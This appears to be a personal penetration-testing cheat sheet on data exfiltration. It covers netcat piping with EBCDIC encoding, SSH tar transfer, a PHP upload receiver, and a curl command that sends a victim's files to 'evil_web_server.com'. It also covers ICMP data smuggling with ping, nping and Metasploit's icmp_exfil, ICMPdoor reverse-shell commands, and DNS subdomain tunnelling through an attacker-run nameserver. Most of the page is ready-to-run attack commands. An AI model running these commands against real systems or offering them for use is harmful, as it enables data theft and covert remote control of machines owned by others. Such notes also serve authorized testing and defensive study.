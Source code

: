 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# TCP
```bash
# encoding the contents of the file and sharing over tcp connection
# 1. create a gunzip archive of all the files
# 2. Convert it to base64
# 3. encode it with EBCDIC format and send the data
tar czf - folder/ | base64 | dd conv=ebcdic | nc 192.168.5.4 8888

# Recive the files
nc -nvlp 8888 | dd conv=ascii | base64 -d | tar xzf -
```
# SSH
```bash
# Method 1 - scp - secure copy
scp files/* user@mymachine

# Method 2 - if scp is not available
tar czf - files/ | ssh user@mymachine "mkdir /tmp/recieved ; tar xzf -"
```
# HTTP/HTTPS
- POST method
- Need a webserver capable of handling uploads
- Example: PHP
```php
<?php
if (isset($_POST['file'])) {
	$file = fopen("/tmp/file.b64","w");
	fwrite($file,$_POST['file']);
	fclose($file);
}
?>
```
- Data from victime machine can be exfiltered using curl:
```bash
curl --data="file=$(tar czf - files/ | base64)" http://evil_web_server.com
```
# ICMP
- `ICMP`: Internet Control Message Protocol.
- Ping command in linux can add 16 bytes of data to the ICMP packet using `-p` option, in hex representation.
- `xxd` can be used to convert string to hex:
```bash
# convert string to hex
echo "drdragon" | xxd -p
```
- Data can be exfiltrated using ping command (linux) or directly using nping command (from nmap)
```bash
ping <remote_host> -c 1 -p 6472647261676f6e
nping --icmp <remote_host> -c 1 --data-string "drdragon"
```
### Metasploit
- This can be achieved using `Metasploit's icmp_exfil module`
- This module listens for an BOF (Beginning of file) trigger, then writes the data to disk then waits for EOF (End of file).
- `BPF_FILTER` option of this modules takes a `tcpdump` rule.
```bash
set BPF_FILTER icmp and not src <my_ip>
```
- Data can be send using
```bash
sudo nping --icmp -c 1 <remote_host> --data-string "BOFadmin.txt"
sudo nping --icmp -c 1 <remote_host> --data-string "data:data"
sudo nping --icmp -c 1 <remote_host> --data-string "EOF"
```
### ICMPdoor
- Opensource reverse shell written in python3. Uses ICMP data section to send commands.
- On the Victim Machine
```bash
sudo icmpdoor -i <interface> -d <attacker_ip>
```
- On the Attacker machine
```bash
sudo icmp-cnc -i <interface> -d <victim_ip>
```
### DNS
- Setup a Domain name. eg: drdragon.com
- Add a NS which points to a malicious dns server, that we control.
- Encode the data and send the data via subdomain name.
```bash
aioh3ioh53oi5ho3i2.drdragon.com
```
NOTE: The whole URL must be 255 chars long and the subdomain must be less than 63 chars.
```bash
dig aioh3ioh53oi5ho3i2.drdragon.com +short
```
- One the nameserver that you control:
```bash
sudo tcpdump -i eth0 udp port 53 -v
```